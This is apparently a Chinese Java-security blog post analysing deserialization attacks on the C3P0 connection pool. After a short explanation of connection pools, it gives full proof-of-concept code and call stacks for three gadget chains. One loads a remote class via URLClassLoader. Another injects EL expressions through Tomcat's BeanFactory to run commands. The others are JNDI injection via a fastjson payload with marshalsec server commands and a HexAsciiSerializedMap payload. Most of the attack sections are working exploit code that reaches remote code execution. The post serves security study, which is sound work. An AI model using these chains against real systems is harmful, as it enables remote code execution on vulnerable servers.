





+++
title= "C3P0反序列化"
slug= "c3p0-deserialization"
description= ""
date= "2025-12-16T00:19:47+08:00"
lastmod= "2025-12-16T00:19:47+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

C3P0 是一个开源的 JDBC 连接池，它实现了数据源和 JNDI 绑定，支持 JDBC3 规范和 JDBC2 的标准扩展。

关于 JDBC 和 C3P0 的关系，JDBC 就像是 Java 世界里的“交通法规”，它规定了程序和数据库之间该怎么交流。但是，光有法规还不行，还得有人来具体执行和管理。C3P0 就是一个第三方的“车辆调度中心”，它完全遵守 JDBC 这套法规，专门负责帮我们高效地管理数据库连接，虽然它不是 Java 自带的，但它是在帮 JDBC 把工作做得更好。

关于“连接池”是什么，连接池的概念其实特别像咱们骑的“共享单车”。你可以试想一下，如果没有连接池，每次你的程序要读写数据库，都得现场“造”一辆自行车（建立连接），骑完了一次还得马上把它“拆”了（销毁连接）。这一造一拆，既费时间又费力气，效率特别低。

为什么要用它，有了 C3P0 这种连接池，情况就不一样了。它会提前造好几十辆车停在路边（池子里）。当程序需要操作数据库时，直接从池子里“领”一辆车骑走就行；等事情办完了，再把车还回池子里，留着给下一次或者别人用。这样反复利用，省去了频繁创建和销毁连接的开销，系统的反应速度自然就变快了。

------

那么，如果那几十辆“共享单车”（连接）都被骑走了，这时候又来了新的用户想要用车，你觉得 C3P0 会怎么处理这些新来的请求呢？

想象一下，路边的站点只有 10 辆车，结果全都被人骑走了（连接池空了）。这个时候会怎么做？

当所有连接都在忙的时候，新来的请求不会马上被拒绝，而是会排队等待（阻塞），在这个期间，一旦有别的线程用完把连接“还”回来，C3P0 就会立马把这个连接分配给正在排队的人，但是这个阻塞是有底线的。

在 C3P0 中，这个“底线”有一个专门的术语，叫做 Checkout Timeout，并抛出异常🥸

对于 C3P0 就了解到这里，具体参见 [源码详解系列(五) ------ C3P0的使用和分析（包括JNDI） 已停更 - 子月生 - 博客园](https://www.cnblogs.com/ZhangZiSheng001/p/12080533.html)

使用 jdk8u66 依赖如下

```xml
<dependency>
  <groupId>com.mchange</groupId>
  <artifactId>c3p0</artifactId>
  <version>0.9.5.2</version>
</dependency>
```

C3P0常见的利用方式有如下三种

- URLClassLoader远程类加载
- JNDI注入
- 利用HEX序列化字节加载器进行反序列化攻击


## URLClassLoader远程类加载

我们知道有这种加载方式

```java
package org.example;

import java.net.URL;
import java.net.URLClassLoader;

public class UrlClassLoaderPoc {
    public static void main(String[] args) throws Exception {
        URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{new URL("file:///Users/admin/Downloads/Jaba/expJar/")});
        Class cl = urlClassLoader.loadClass("Evil");
        cl.newInstance();
    }
}
```



在 C3P0 中同样有一条可以利用的 gadget，入口是`PoolBackedDataSourceBase#readObject`

```java
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
    short version = ois.readShort();
    switch (version) {
        case 1:
            Object o = ois.readObject();
            if (o instanceof IndirectlySerialized) {
                o = ((IndirectlySerialized)o).getObject();
            }

            this.connectionPoolDataSource = (ConnectionPoolDataSource)o;
            this.dataSourceName = (String)ois.readObject();
            o = ois.readObject();
            if (o instanceof IndirectlySerialized) {
                o = ((IndirectlySerialized)o).getObject();
            }

            this.extensions = (Map)o;
            this.factoryClassLocation = (String)ois.readObject();
            this.identityToken = (String)ois.readObject();
            this.numHelperThreads = ois.readInt();
            this.pcs = new PropertyChangeSupport(this);
            this.vcs = new VetoableChangeSupport(this);
            return;
        default:
            throw new IOException("Unsupported Serialized Version: " + version);
    }
}
```

这个 readObject 方法除了读取数据，它还做了一个“解包”的操作，针对`IndirectlySerialized`对象。调用其`getObject`方法

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package com.mchange.v2.ser;

import java.io.IOException;
import java.io.Serializable;

public interface IndirectlySerialized extends Serializable {
    Object getObject() throws ClassNotFoundException, IOException;
}
```

发现是个接口，找其实例化类，发现是 ReferenceSerialized

```java
public Object getObject() throws ClassNotFoundException, IOException {
        try {
            InitialContext var1;
            if (this.env == null) {
                var1 = new InitialContext();
            } else {
                var1 = new InitialContext(this.env);
            }

            Context var2 = null;
            if (this.contextName != null) {
                var2 = (Context)var1.lookup(this.contextName);
            }

            return ReferenceableUtils.referenceToObject(this.reference, this.name, var2, this.env);
        } catch (NamingException var3) {
            if (ReferenceIndirector.logger.isLoggable(MLevel.WARNING)) {
                ReferenceIndirector.logger.log(MLevel.WARNING, "Failed to acquire the Context necessary to lookup an Object.", var3);
            }

            throw new InvalidObjectException("Failed to acquire the Context necessary to lookup an Object: " + var3.toString());
        }
    }
```

基于 JNDI 上下文将引用 Reference 还原为具体的 Java 对象，它首先根据 env 初始化 InitialContext，如果指定了`contextName`则进一步查找获取子上下文，最后将准备好的引用、名称和上下文透传给`ReferenceableUtils.referenceToObject`方法来完成对象的实例化与返回。跟进

```java
public static Object referenceToObject(Reference var0, Name var1, Context var2, Hashtable var3) throws NamingException {
    try {
        String var4 = var0.getFactoryClassName();
        String var11 = var0.getFactoryClassLocation();
        ClassLoader var6 = Thread.currentThread().getContextClassLoader();
        if (var6 == null) {
            var6 = ReferenceableUtils.class.getClassLoader();
        }

        Object var7;
        if (var11 == null) {
            var7 = var6;
        } else {
            URL var8 = new URL(var11);
            var7 = new URLClassLoader(new URL[]{var8}, var6);
        }

        Class var12 = Class.forName(var4, true, (ClassLoader)var7);
        ObjectFactory var9 = (ObjectFactory)var12.newInstance();
        return var9.getObjectInstance(var0, var1, var2, var3);
    } catch (Exception var10) {
        if (logger.isLoggable(MLevel.FINE)) {
            logger.log(MLevel.FINE, "Could not resolve Reference to Object!", var10);
        }

        NamingException var5 = new NamingException("Could not resolve Reference to Object!");
        var5.setRootCause(var10);
        throw var5;
    }
}
```

获取目标工厂类的名字和地址，接着获取 ClassLoader，这里肯定就是 URLClassLoader 了，然后反射调用。

需要伪造的 ConnectionPoolDataSource，不实现 Serializable 接口，强制触发 C3P0 的 ReferenceIndirector 逻辑

Poc

```java
package org.example;

import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;
import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.logging.Logger;

public class UrlClassLoaderPoc {

    public static void main(String[] args) throws Exception {
        Reference ref = new Reference("Evil", "Evil", "http://127.0.0.1:8000/");
        Class<?> clazz = Class.forName("com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase");
        Constructor<?> ctor = clazz.getDeclaredConstructor(boolean.class);
        ctor.setAccessible(true);
        PoolBackedDataSourceBase targetObject = (PoolBackedDataSourceBase) ctor.newInstance(false);

        ConnectionPoolDataSource maliciousSource = new MaliciousConnectionPoolDataSource(ref);
        Field field = clazz.getDeclaredField("connectionPoolDataSource");
        field.setAccessible(true);
        field.set(targetObject, maliciousSource);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(targetObject);
        oos.close();

        ByteArrayInputStream bais = new ByteArrayInputStream(barr.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
    }

    static class MaliciousConnectionPoolDataSource implements ConnectionPoolDataSource, Referenceable {
        private Reference reference;

        public MaliciousConnectionPoolDataSource(Reference reference) {
            this.reference = reference;
        }

        @Override
        public Reference getReference() throws NamingException {
            return reference;
        }

        @Override public PooledConnection getPooledConnection() throws SQLException { return null; }
        @Override public PooledConnection getPooledConnection(String user, String password) throws SQLException { return null; }
        @Override public PrintWriter getLogWriter() throws SQLException { return null; }
        @Override public void setLogWriter(PrintWriter out) throws SQLException { }
        @Override public void setLoginTimeout(int seconds) throws SQLException { }
        @Override public int getLoginTimeout() throws SQLException { return 0; }
        @Override public Logger getParentLogger() throws SQLFeatureNotSupportedException { return null; }
    }
}
```

调用栈

```java
at Evil.<init>(Evil.java:2)
at sun.reflect.NativeConstructorAccessorImpl.newInstance0(NativeConstructorAccessorImpl.java:-1)
at sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)
at sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
at java.lang.reflect.Constructor.newInstance(Constructor.java:422)
at java.lang.Class.newInstance(Class.java:442)
at com.mchange.v2.naming.ReferenceableUtils.referenceToObject(ReferenceableUtils.java:92)
at com.mchange.v2.naming.ReferenceIndirector$ReferenceSerialized.getObject(ReferenceIndirector.java:118)
at com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase.readObject(PoolBackedDataSourceBase.java:211)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at org.example.UrlClassLoaderPoc.main(UrlClassLoaderPoc.java:37)
```

然后想到既然最后的分支是 JNDI 也会加载的，想要写一个 JNDI 的 poc，但是没注意到属性`contextName`为默认`null`且不可控，没成功，想到 EL 表达式注入的打法，写出了以下的 poc

显式传入`null`，C3P0 就会乖乖走入`else`分支，使用本地 ClassLoader 加载 Tomcat 的`BeanFactory`，`identityToken`需要被正确生成，所以实例化`PoolBackedDataSourceBase`传入 false

```java
package org.example;

import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;
import org.apache.naming.ResourceRef;

import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.naming.StringRefAddr;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;
import java.io.*;
import java.lang.reflect.Field;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.logging.Logger;

public class ELPoc {
    
    public static void main(String[] args) throws Exception {
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=eval"));
        String cmd = "open -a Calculator";
        String elPayload = "\"\".getClass().forName(\"java.lang.Runtime\").getMethod(\"exec\",\"\".getClass().forName(\"java.lang.String\")).invoke(\"\".getClass().forName(\"java.lang.Runtime\").getMethod(\"getRuntime\").invoke(null),\"" + cmd + "\")";

        ref.add(new StringRefAddr("x", elPayload));

        PoolBackedDataSourceBase targetObject = new PoolBackedDataSourceBase(false);
        ConnectionPoolDataSource maliciousSource = new MaliciousConnectionPoolDataSource(ref);

        Field field = PoolBackedDataSourceBase.class.getDeclaredField("connectionPoolDataSource");
        field.setAccessible(true);
        field.set(targetObject, maliciousSource);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(targetObject);
        oos.close();

        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
    }

    static class MaliciousConnectionPoolDataSource implements ConnectionPoolDataSource, Referenceable {
        private Reference reference;

        public MaliciousConnectionPoolDataSource(Reference reference) {
            this.reference = reference;
        }

        @Override
        public Reference getReference() throws NamingException {
            return reference;
        }

        @Override public PooledConnection getPooledConnection() throws SQLException { return null; }
        @Override public PooledConnection getPooledConnection(String user, String password) throws SQLException { return null; }
        @Override public PrintWriter getLogWriter() throws SQLException { return null; }
        @Override public void setLogWriter(PrintWriter out) throws SQLException { }
        @Override public void setLoginTimeout(int seconds) throws SQLException { }
        @Override public int getLoginTimeout() throws SQLException { return 0; }
        @Override public Logger getParentLogger() throws SQLFeatureNotSupportedException { return null; }
    }
}
```



调用栈

```java
at javax.el.ELProcessor.eval(ELProcessor.java:54)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at org.apache.naming.factory.BeanFactory.getObjectInstance(BeanFactory.java:210)
at com.mchange.v2.naming.ReferenceableUtils.referenceToObject(ReferenceableUtils.java:93)
at com.mchange.v2.naming.ReferenceIndirector$ReferenceSerialized.getObject(ReferenceIndirector.java:118)
at com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase.readObject(PoolBackedDataSourceBase.java:211)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at org.example.ELPoc.main(ELPoc.java:42)
```

没想到这就是网上广为流传的不出网打法😼


## JNDI 注入

```
ReferenceSerialized#getObject`中有调用 lookup 方法，但是不可控，那很容易想到打 JNDI 需要找一个合适的入口在这里，看到`JndiRefForwardingDataSource#dereference()
private DataSource dereference() throws SQLException {
        Object jndiName = this.getJndiName();
        Hashtable jndiEnv = this.getJndiEnv();

        try {
            InitialContext ctx;
            if (jndiEnv != null) {
                ctx = new InitialContext(jndiEnv);
            } else {
                ctx = new InitialContext();
            }

            if (jndiName instanceof String) {
                return (DataSource)ctx.lookup((String)jndiName);
            } else if (jndiName instanceof Name) {
                return (DataSource)ctx.lookup((Name)jndiName);
            } else {
                throw new SQLException("Could not find ConnectionPoolDataSource with JNDI name: " + jndiName);
            }
        } catch (NamingException var4) {
            if (logger.isLoggable(MLevel.WARNING)) {
                logger.log(MLevel.WARNING, "An Exception occurred while trying to look up a target DataSource via JNDI!", var4);
            }

            throw SqlUtils.toSQLException(var4);
        }
    }
```

先获取目标对象的名字和所需参数，初始化`InitialContext`，如果有 jndienv 就按照配置连，没有就默认配置连，然后就调用 lookup 方法

```java
public Object getJndiName() {
    return this.jndiName instanceof Name ? ((Name)this.jndiName).clone() : this.jndiName;
}
```

虽然无论是 Name 还是 String 都会造成 JNDI，但是跟进 getJndiName 方法发现如果传入 Name 类型的可能是不可控的，所以我们需要传入 String 的。查找什么地方调用了 dereference，到了`JndiRefForwardingDataSource#inner`

```java
private synchronized DataSource inner() throws SQLException {
    if (this.cachedInner != null) {
        return this.cachedInner;
    } else {
        DataSource out = this.dereference();
        if (this.isCaching()) {
            this.cachedInner = out;
        }

        return out;
    }
}
```

是带有缓存功能的包装器。只要想办法让代码走到 `else` 分支（即缓存为空的时候），就能成功触发 JNDI 注入

继续找调用这个的方法，



发现有六个，并且还在这个类里面，前面四个直接排除，抛出错误肯定是更容易做到的，无参方法排除，看到 setLoginTimeout 有传 int 类型就可以触发

```java
public void setLoginTimeout(int seconds) throws SQLException {
    this.inner().setLoginTimeout(seconds);
}
```

不过这个类貌似对 JNDIName 没有什么作用，继续查找调用这个方法的值`WrapperConnectionPoolDataSource#setLoginTimeout`

```java
public void setLoginTimeout(int seconds) throws SQLException {
    this.getNestedDataSource().setLoginTimeout(seconds);
}
```

跟进

```java
public synchronized DataSource getNestedDataSource() {
    return this.nestedDataSource;
}
```

发现

```java
private DataSource nestedDataSource;
```

类型对上了，同时跟进一开始的 getJndiName 发现下面就有`JndiRefDataSourceBase#setJndiName`

```java
public void setJndiName(Object jndiName) throws PropertyVetoException {
    Object oldVal = this.jndiName;
    if (!this.eqOrBothNull(oldVal, jndiName)) {
        this.vcs.fireVetoableChange("jndiName", oldVal, jndiName);
    }

    this.jndiName = jndiName instanceof Name ? ((Name)jndiName).clone() : jndiName;
    if (!this.eqOrBothNull(oldVal, jndiName)) {
        this.pcs.firePropertyChange("jndiName", oldVal, jndiName);
    }

}
```



并且`JndiRefForwardingDataSource`继承于`JndiRefDataSourceBase`🫡

启动 JNDI 服务

```bash
python3 -m http.server 8000
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Evil"
```

poc 如下，使用 fastjson 触发任意 setter 方法

```java
package org.example;

import com.alibaba.fastjson.JSON;

public class JndiForwardingDataSourcePoc {

    public static void main(String[] args) {
        String payload = "{\"@type\":\"com.mchange.v2.c3p0.JndiRefForwardingDataSource\"," +
                "\"jndiName\":\"ldap://127.0.0.1:1389/#Evil\",\"LoginTimeout\":\"1\"}";
        JSON.parse(payload);
    }
}
```

调用栈

```java
at Evil.<init>(Evil.java:1)
at sun.reflect.NativeConstructorAccessorImpl.newInstance0(NativeConstructorAccessorImpl.java:-1)
at sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)
at sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
at java.lang.reflect.Constructor.newInstance(Constructor.java:422)
at java.lang.Class.newInstance(Class.java:442)
at javax.naming.spi.NamingManager.getObjectFactoryFromReference(NamingManager.java:163)
at javax.naming.spi.DirectoryManager.getObjectInstance(DirectoryManager.java:189)
at com.sun.jndi.ldap.LdapCtx.c_lookup(LdapCtx.java:1085)
at com.sun.jndi.toolkit.ctx.ComponentContext.p_lookup(ComponentContext.java:542)
at com.sun.jndi.toolkit.ctx.PartialCompositeContext.lookup(PartialCompositeContext.java:177)
at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:205)
at com.sun.jndi.url.ldap.ldapURLContext.lookup(ldapURLContext.java:94)
at javax.naming.InitialContext.lookup(InitialContext.java:417)
at com.mchange.v2.c3p0.JndiRefForwardingDataSource.dereference(JndiRefForwardingDataSource.java:112)
at com.mchange.v2.c3p0.JndiRefForwardingDataSource.inner(JndiRefForwardingDataSource.java:134)
at com.mchange.v2.c3p0.JndiRefForwardingDataSource.setLoginTimeout(JndiRefForwardingDataSource.java:157)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at com.alibaba.fastjson.parser.deserializer.FieldDeserializer.setValue(FieldDeserializer.java:96)
at com.alibaba.fastjson.parser.deserializer.DefaultFieldDeserializer.parseField(DefaultFieldDeserializer.java:83)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.parseField(JavaBeanDeserializer.java:773)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:600)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:188)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:184)
at com.alibaba.fastjson.parser.DefaultJSONParser.parseObject(DefaultJSONParser.java:368)
at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1327)
at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1293)
at com.alibaba.fastjson.JSON.parse(JSON.java:137)
at com.alibaba.fastjson.JSON.parse(JSON.java:128)
at org.example.JndiForwardingDataSourcePoc.main(JndiForwardingDataSourcePoc.java:10)
```


## 利用HEX序列化字节加载器进行反序列化攻击

这个在学习二次反序列化的时候就有所了解，这里改为头使用 EL 表达式的

```java
package org.example;

import com.alibaba.fastjson.JSON;
import com.mchange.v2.naming.ReferenceIndirector;
import org.apache.naming.ResourceRef;

import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.naming.StringRefAddr;
import javax.xml.bind.DatatypeConverter;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;

public class HexPoc {
    public static void main(String[] args) throws Exception {
        String hexString = generateTomcatPayload();
        String jsonPayload = "{\n" +
                "    \"rand1\": {\n" +
                "        \"@type\": \"java.lang.Class\",\n" +
                "        \"val\": \"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\"\n" +
                "    },\n" +
                "    \"rand2\": {\n" +
                "        \"@type\": \"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\",\n" +
                "        \"userOverridesAsString\": \"HexAsciiSerializedMap:" + hexString + ";\"\n" +
                "    }\n" +
                "}";

        JSON.parseObject(jsonPayload);
    }

    public static String generateTomcatPayload() throws Exception {
        String cmd = "open -a Calculator";
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=eval"));
        String elPayload = "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"java.lang.Runtime.getRuntime().exec('" + cmd + "')\")";
        ref.add(new StringRefAddr("x", elPayload));

        ReferenceIndirector indirector = new ReferenceIndirector();
        Object referenceSerialized = indirector.indirectForm(new SimpleReferenceable(ref));

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(referenceSerialized);
        oos.close();

        return DatatypeConverter.printHexBinary(baos.toByteArray());
    }

    static class SimpleReferenceable implements Referenceable {
        private final Reference reference;

        public SimpleReferenceable(Reference reference) {
            this.reference = reference;
        }

        @Override
        public Reference getReference() throws NamingException {
            return reference;
        }
    }
}
```



调用栈

```java
at javax.el.ELProcessor.eval(ELProcessor.java:54)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
